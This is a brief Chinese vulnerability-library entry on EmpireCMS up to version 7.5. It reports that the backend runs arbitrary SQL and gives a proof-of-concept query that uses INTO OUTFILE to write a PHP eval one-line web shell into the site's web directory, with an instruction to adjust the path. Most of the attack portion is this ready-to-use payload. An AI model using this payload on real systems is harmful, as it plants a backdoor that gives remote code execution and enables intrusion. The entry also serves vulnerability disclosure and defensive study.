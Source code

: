 ```yaml
---
title: 'EmpireCMS'
date: Tue, 08 Sep 2020 13:42:30 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <= V7.5

### 漏洞验证

由于后端没有对执行的语句做限制导致可以执行恶意sql语句。 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/HOH@WWOHVQOVSR5K9.png) POC：

```
select '<?php @eval($_POST[1])?>' into outfile 'D:/phpstudy_pro/WWW/shell.php'
```

根据实际路径修改路径即可。 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/7MGWYGAV0VX0AO6JNOC3.png)